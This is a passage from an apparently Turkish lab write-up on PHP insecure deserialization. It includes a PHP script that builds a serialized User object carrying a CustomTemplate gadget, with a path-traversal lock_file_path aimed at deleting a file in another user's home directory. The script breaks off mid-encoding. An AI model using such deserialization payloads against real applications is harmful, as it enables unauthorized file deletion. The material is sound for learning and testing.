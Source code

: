 ![Untitled](0x0D%20e7c75cda4af14d9f8c7d57729ec14f3a/Untitled%2011.png)

![Untitled](0x0D%20e7c75cda4af14d9f8c7d57729ec14f3a/Untitled%2012.png)

Eriştiğimiz kaynak kodlardaki kodu temel olarak kullanarak ilerleyebiliriz. 

```php
<?php
/*
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hswyhm8a08j9hw5s4jw6qm00v58dlwro";}
*/
class CustomTemplate {
    var $template_file_path;
    var $lock_file_path;

    function __destruct() {
        // Carlos thought this would be a good idea
        //if (file_exists($this->lock_file_path)) {
        //     unlink($this->lock_file_path);
        // }
        //echo $this->lock_file_path;
    }
}

class User{
    var $username;
    var $access_token;
}

$object = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"syr3gz1bmse9kg6obvf2ppno1tx272tp";}';

$payload = new User;
$payload->access_token = 'syr3gz1bmse9kg6obvf2ppno1tx272tp';
$payload->username = new CustomTemplate();
$payload->username->lock_file_path = "../../../../../../../../../../../../../../../../../../../home/carlos/morale.txt";
$payload->username->template_file_path = "test.txt";

echo urlencode(
    base64_encode(
```